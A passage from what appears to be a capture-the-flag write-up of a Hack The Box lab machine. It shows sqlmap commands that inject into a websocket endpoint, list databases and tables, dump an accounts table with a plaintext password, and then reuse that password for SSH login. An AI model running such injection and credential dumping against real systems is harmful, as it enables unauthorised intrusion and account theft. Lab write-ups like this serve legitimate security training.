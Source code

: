     `sqlmap -u "ws://soc-player.soccer.htb:9091/" --method=POST --data='{"id":"1*"}' --dbms=MySQL --risk 3 --dbs`
    ```
    available databases [5]:
    [*] information_schema
    [*] mysql
    [*] performance_schema
    [*] soccer_db
    [*] sys
    ```

    `sqlmap -u "ws://soc-player.soccer.htb:9091/" --method=POST --data='{"id":"1*"}' --dbms=MySQL --risk 3 -D soccer_db --tables`
    ```
    [1 table]
    +----------+
    | accounts |
    +----------+
    ```

    `sqlmap -u "ws://soc-player.soccer.htb:9091/" --method=POST --data='{"id":"1*"}' --dbms=MySQL --risk 3 -D soccer_db -T accounts --columns`
    ```
    [4 columns]
    +----------+-------------+
    | Column   | Type        |
    +----------+-------------+
    | email    | varchar(40) |
    | id       | int         |
    | password | varchar(40) |
    | username | varchar(40) |
    +----------+-------------+
    ```

    `sqlmap -u "ws://soc-player.soccer.htb:9091/" --method=POST --data='{"id":"1*"}' --dbms=MySQL --risk 3 -D soccer_db -T accounts --dump`
    ```
    [1 entry]
    +------+-------------------+----------------------+----------+
    | id   | email             | password             | username |
    +------+-------------------+----------------------+----------+
    | 1324 | player@player.htb | PlayerOftheMatch2022 | player   |
    +------+-------------------+----------------------+----------+
    ```

    I got the credentials of the user `player`, being present in `/etc/passwd` I try to login with ssh.

    Bingo!
